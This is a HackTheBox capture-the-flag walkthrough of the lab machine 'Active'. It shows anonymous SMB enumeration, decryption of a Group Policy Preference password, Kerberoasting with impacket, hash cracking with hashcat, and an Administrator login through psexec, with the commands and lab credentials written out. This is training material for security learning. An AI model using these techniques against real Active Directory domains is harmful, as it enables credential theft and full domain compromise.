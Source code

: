 ```yaml
---
title: Active - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-28 12:00:00 
categories: [HackTheBox,Windows]
tags: [active directory,gpp,kerberoasting]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Active/00-banner.png
  width: 590
  height: 370
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Active` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we’ll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan 
# Nmap 7.91 scan initiated Wed Oct 27 18:37:48 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.245.27
Nmap scan report for 10.129.245.27
Host is up (0.12s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-10-27 23:38:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-10-27T23:39:23
|_  start_date: 2021-10-27T23:34:33

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 27 18:39:27 2021 -- 1 IP address (1 host up) scanned in 99.73 seconds
```

With the name of the machine and the ports open we can deduce we are tackling an Active Directory, the nmap result give us the domain: `active.htb`. Add this to `/etc/hosts` file.

## Smb Enumeration
Enumerating samba with [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) displays that `Replication` directory is readable.

```console
$ crackmapexec smb 10.129.245.27 -u '' -p '' --shares 
```

![01-cme](/assets/img/HTB/Active/01-cme.png)

and using `smbclient` we can access to it without password.

![02-smbclient](/assets/img/HTB/Active/02-smbclient.png)

# Initial Foothold

After checking the files inside the directory I came across with `Groups.xml` which is a Group Policy Preference (GPP) file. 

Download it with this commands:

```console
$ prompt OFF
$ mget Groups.xml
```

![03-groups](/assets/img/HTB/Active/03-groups.png)

GPP store and use credentials in several files, this helps to the administrators to schedule tasks to change the local admin passwords on a large numbers of computers at once. This passwords are encrypted with AES-256 , the interesting thing is that [Microsoft published the AES private key ](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) this allow us to decrypt the password.

Check this [site](https://adsecurity.org/?p=2288) for more information.

![04-password](/assets/img/HTB/Active/04-password.png)

User| Password
-|-
SVC_TGS|GPPstillStandingStrong2k18

![05-cme](/assets/img/HTB/Active/05-cme.png)

# Kerberoasting Attack

Once we have a valid credential we can perform a `Kerberoasting attack`. When authenticated user has a kerberos TGT(Ticket-Granting-Ticket) use this ticket to request a TGS(Ticket-Granting-Service) for specific resources/services on the domain, this TGS is encrypted with the hash of the service account associated with the SPN(Service Principal Name). The aim to this attack is get the TGS and crack it if the password is weak.

We'll use `GetUserSPNs.py` from impacket to get the TGS like the screenshot below.

![06-kerberos](/assets/img/HTB/Active/06-kerberos.png)

> In case you get the next error: "Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)", you just need sync the date from the Kerberos server with your attack machine, do this with the next commands:

```console
$ sudo apt install ntpdate
$ ntpdate -u 10.129.245.27
```

Crack the TGS hash using `Hashcat` or `John the Ripper`.

Find the number of hash-mode [here](https://hashcat.net/wiki/doku.php?id=example_hashes)
```console
$ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force
```

![07-hashcat](/assets/img/HTB/Active/07-hashcat.png)

We got password!!

![08-cme](/assets/img/HTB/Active/08-cme.png)

Let's use `psexec.py` to login as the administrator.

```console
psexec.py active.htb/Administrator:Ticketmaster1968@active.htb
```
![09-root](/assets/img/HTB/Active/09-root.png)

That’s it for now guys. Until next time.

# Resources

Topic|Url
-|-
Exploiting GPP|[https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)
Kerberos Authentication | [https://www.varonis.com/blog/kerberos-authentication-explained/](https://www.varonis.com/blog/kerberos-authentication-explained/)
Kerberoasting attack| [https://www.qomplx.com/qomplx-knowledge-kerberoasting-attacks-explained/](https://www.qomplx.com/qomplx-knowledge-kerberoasting-attacks-explained/)
Kerberoasting attack| [https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)



